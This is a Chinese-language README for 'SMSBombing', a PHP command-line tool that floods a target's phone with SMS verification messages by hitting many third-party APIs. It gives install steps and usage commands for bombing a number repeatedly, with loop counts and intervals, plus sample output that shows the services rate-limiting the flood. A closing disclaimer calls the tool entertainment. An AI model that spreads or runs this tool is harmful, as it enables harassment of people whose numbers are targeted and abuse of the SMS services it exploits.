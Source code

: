 <div align="center">
    
<h1>SMSBombing</h1>

[![Auth](https://img.shields.io/badge/Auth-xiaoxuan6-ff69b4?logo=github)](https://github.com/xiaoxuan6)
[![GitHub Pull Requests](https://img.shields.io/github/stars/xiaoxuan6/SMSBombing?logo=Undertale)](https://github.com/xiaoxuan6/SMSBombing/stargazers)
![GitHub forks](https://img.shields.io/github/forks/xiaoxuan6/SMSBombing?style=flat&logo=forgejo)
[![Github latest release](https://img.shields.io/github/v/release/xiaoxuan6/SMSBombing)](https://github.com/xiaoxuan6/SMSBombing/releases)
![GitHub Tag](https://img.shields.io/github/v/tag/xiaoxuan6/SMSBombing)
[![HitCount](https://views.whatilearened.today/views/github/xiaoxuan6/SMSBombing.svg)](https://github.com/xiaoxuan6/SMSBombing)
[![](https://img.shields.io/badge/%E5%8D%9A%E5%AE%A2-xiaoxuan6‘s-d7b1bf?logo=Blogger)](https://xiaoxuan6.vercel.app/)
![Static Badge](https://img.shields.io/badge/weekly-%E5%91%A8%E5%88%8A-d7b1bf?style=flat&logo=stackexchange)
[![GitHub license](https://img.shields.io/github/license/xiaoxuan6/SMSBombing)](https://github.com/xiaoxuan6/SMSBombing/blob/v2/LICENSE)

</div>

> [!NOTE]  
> 基础框架已提供，如需添加/修改更多 `api` 接口，直接修改 `api.json` 文件，切勿重复提交相关 issue [#14](https://github.com/xiaoxuan6/SMSBombing/issues/14)、[#11](https://github.com/xiaoxuan6/SMSBombing/issues/11)、[#10](https://github.com/xiaoxuan6/SMSBombing/issues/10)

> [!WARNING]
> 版本 `v2.1.0` 之后默认使用 `url` 获取 `api.json`, 如果需要使用指定 `api.json` 请使用版本 `v2.1.1` 或更高版本（不支持 docker）。
>
> EX:
>
> ```
> sms-bombing 176xxxxxxxx -f ./api.json
> ```

# Requirement

* PHP >= 8.1

# Install

> [!NOTE]  
> 以下三种方法使用任意一种方法安装都可以，并不是三种方法全部执行！！！
> 
> 以下三种方法使用任意一种方法安装都可以，并不是三种方法全部执行！！！
> 
> 以下三种方法使用任意一种方法安装都可以，并不是三种方法全部执行！！！
> 
> 重要的事情说三遍。

## 方法一、直接下载 [sms-bombing](./builds/sms-bombing) 可执行文件

```shell
curl 'https://mirror.ghproxy.com/https://raw.githubusercontent.com/xiaoxuan6/SMSBombing/v2/builds/sms-bombing' -o sms-bombing --progress-bar
chmod +x sms-bombing

# linux 下执行
mv sms-bombing /usr/local/bin/sms-bombing

# win 下使用 ./smsbombing ，否则报错：command not found
```

## 方法二、通过 Composer 安装

```bash
composer global require james.xue/sms-bombing
```

## 方法三、Docker

[sms-bombing](./README-docker.md)

# Use

普通轰炸（默认 10 次）

```bash
sms-bombing 136xxxxxxxx
```

全量轰炸

```bash
sms-bombing 136xxxxxxxx --num=all
```

启动 5 次,轰炸一个人的手机号(136xxxxxx)

```bash
sms-bombing 136xxxxxxxx --num=5
```

启动 5 次,轰炸一个人的手机号(136xxxxxx), 启动循环轰炸, 轮番轰炸2次

```bash
sms-bombing 136xxxxxxxx --num=5 -l 2
```

启动 5 次,轰炸一个人的手机号(136xxxxxx), 启动循环轰炸, 轮番轰炸2次，循环间隔30秒

```bash
sms-bombing 136xxxxxxxx --num=5 -l 2 -i 30
```

<details>
<summary><b>轰炸效果</b></summary>

```bash
sms-bombing 136xxxxxxxx -l 2
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：1 请求结果：
索引：7 请求结果：0
索引：6 请求结果：success
索引：8 请求结果：
索引：9 请求结果：1
索引：5 请求结果：{"code":0,"msg":"success"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：1 请求结果：
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：7 请求结果：0
索引：6 请求结果：success
索引：5 请求结果：{"code":2701,"msg":"\u89e6\u53d1\u5206\u949f\u7ea7\u6d41\u63a7Permits:1"}
索引：9 请求结果：1
索引：8 请求结果：
索引：4 请求结果：{"code":"3","codeInfo":" permission deny"}
索引：0 请求结果：{"code":65,"desc":"访问太频繁"}
索引：3 请求结果：{"resultCode": 2009, "message": "phone_format_error", "data": null, "redirectUrl": null}
索引：1 请求结果：
索引：2 请求结果：{"success":false,"msg":"操作过于频繁，请稍后再试","data":[]}
索引：6 请求结果：success
索引：7 请求结果：0
索引：5 请求结果：{"code":2701,"msg":"\u89e6\u53d1\u5206\u949f\u7ea7\u6d41\u63a7Permits:1"}
索引：9 请求结果：1
```

</details>

# Changelog

Please see [CHANGELOG](./CHANGELOG.md) for more information on what has changed recently.

# 捐赠

如果此项目对您有帮助，还希望您捐赠支持，让我能好好的一直坚持下去。金额不在于多少，一份心意就好！在此感谢所有的捐赠者，你们的鼓励是我最大的动力！

<div style="background:#e3e3e3; color:#FFF" align=center >
<img width="220" height="300" src="https://cdn.jsdelivr.net/gh/xiaoxuan6/static/images/202212102216540.png"/>&nbsp;&nbsp;&nbsp;&nbsp;<img width="200" height="300" src="https://cdn.jsdelivr.net/gh/xiaoxuan6/static/images/202212102216435.jpg"/></div>

# Stargazers over time
[![Stargazers over time](https://starchart.cc/xiaoxuan6/SMSBombing.svg?variant=adaptive)](https://starchart.cc/xiaoxuan6/SMSBombing)

# License

The MIT License (MIT). Please see [License File](./LICENSE) for more information.

# 免责声明

若使用者滥用本项目,本人 无需承担 任何法律责任. 本程序仅供娱乐,源码全部开源,禁止滥用 和二次 贩卖盈利. 禁止用于商业用途.
